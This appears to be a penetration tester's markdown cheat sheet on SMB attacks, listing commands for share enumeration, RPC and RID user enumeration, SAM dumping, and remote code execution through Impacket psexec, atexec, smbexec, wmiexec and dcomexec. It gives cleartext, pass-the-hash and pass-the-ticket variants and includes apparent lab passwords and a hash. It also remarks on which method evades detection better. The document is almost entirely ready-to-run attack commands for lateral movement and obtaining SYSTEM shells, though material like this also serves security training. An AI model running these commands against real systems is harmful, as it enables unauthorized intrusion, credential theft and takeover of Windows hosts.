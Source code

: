```yaml
---
layout: default
---
```


# Interacting
## Show avaiable shares
```bash
# crackmapexec
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

# smbmap
$ smbmap -H 10.129.14.128
$ smbmap -H 10.129.14.128 -r notes
$ smbmap -H 10.129.14.128 --download "notes\note.txt"
$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"

# smbclient
$ smbclient -N -L //10.129.14.128
```

- `-N` suppresses the password prompt
- `-L` want to retrieve a list of available shares on the remote host

## Connecting
```bash
$ smbclient -U bob //10.129.42.253/users
$ smbclient -U user \\\\10.129.42.197\\SHARENAME

# PTH
$ smbclient.py -hashes":<hash>" <user>@<ip>
```

## Download Files
```bash
smb: \> get prep-prod.txt 
```

# Footprinting
## Nmap
```bash
$ sudo nmap 10.129.14.128 -sV -sC -p139,445
$ nmap --script smb-os-discovery.nse -p445 10.10.10.40
```

## Remote Procedure Call (RPC)
```bash
$ rpcclient <IP> -U ""
$ rpcclient -U'%' <IP>
$ rpcclient -U "" -N 172.16.5.5
```

| Query              | Description                                                      |
|--------------------|------------------------------------------------------------------|
| srvinfo            | Server information.                                              |
| enumdomains        | Enumerate all domains that are deployed in the network.          |
| querydominfo       | Provides domain, server, and user information of deployed domains.|
| netshareenumall    | Enumerates all available shares.                                 |
| netsharegetinfo <share> | Provides information about a specific share.                   |
| enumdomusers       | Enumerates all domain users.                                     |
| queryuser <RID>    | Provides information about a specific user.                      |


## Impacket - Samrdump.py (Brute Forcing User RIDs)
```bash
$ samrdump.py 10.129.14.128
```

## Enum4Linux-ng
```bash
$ git clone https://github.com/cddmp/enum4linux-ng.git
$ cd enum4linux-ng
$ pip3 install -r requirements.txt
$ ./enum4linux-ng.py <IP> -A -C
```

# Remote Code Execution
- Impacket PsExec - Python PsExec like functionality example using RemComSvc.
- Impacket SMBExec - A similar approach to PsExec without using RemComSvc. The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- Impacket atexec - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- CrackMapExec - includes an implementation of smbexec and atexec.
- Metasploit PsExec - Ruby PsExec implementation.


```
$ impacket-psexec -h
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

```
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## interactive-shell
**Psexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py]**
One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```bash
# ClearText
$ impacket-psexec <domain>/<user>:<password>@<ip>
$ psexec.py <domain>/<user>:<password>@<ip>

# PTH
$ impacket-psexec -hashes ":<hash>"<user>@<ip>`
$ psexec.py -hashes ":<hash>"<user>@<ip>

# PTT - Same as PassTheHash but use -k and -no-pass 
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
$ psexec.py -dc-ip IP -target-ip $IP -no-pass -k <DOMAIN>/<USER>@<target machine name>.<DOMAIN> -> goat
$ psexec.py -dc-ip <IP> -no-pass -k <domain>/<user>@<ip>
```

### pseudo-shell (file write and read)
#### Impacket Toolkit
**Atexec.py [https://github.com/fortra/impacket/blob/master/examples/atexec.py]**
```bash
# ClearText
$ atexec.py <domain>/<user>:<password>@<ip> "command" 

# PTH
$ atexec.py -hashes ":<hash>" <domain>/<user>@<ip> "command"

# PTT
$ atexec.py <domain>/<user>@<ip> "command" -k -no-pass
```

**Smbexec.py [https://github.com/fortra/impacket/blob/master/examples/smbexec.py]**
```bash
# ClearText
$ smbexec.py <domain>/<user>:<password>@<ip>

# PTH
$ smbexec.py -hashes ":<hash>" <domain>/<user>@<ip> 

# PTT
$ smbexec.py <domain>/<user>@<ip> -k -no-pass
```

**Wmiexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]**
Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.
```bash
# ClearText
$ wmiexec.py <domain>/<user>:<password>@<ip>

# PTH
$ wmiexec.py -hashes":<hash>" <user>@<ip> 
```

**Dcomexec.py [https://github.com/fortra/impacket/blob/master/examples/dcomexec.py]**
```bash
# ClearText
$ dcomexec.py <domain>/<user>:<password>@<ip>

# PTH
$ dcomexec.py -hashes ":<hash>"<user>@<ip> 
```

**CrackMapExec**
```bash
# ClearText
$ crackmapexec smb <ip> -u <user> -p <pssword> -x <command> --exec-method smbexec
$ crackmapexec smb <ip_range> -u <user> -p < password> -d <domain>
$ crackmapexec smb <ip_range> -u <user> -p < password> -local-auth

# PTH
$ crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>' 
$ crackmapexec smb <ip_range> -u <user> -H ':<hash>' --local-auth
```

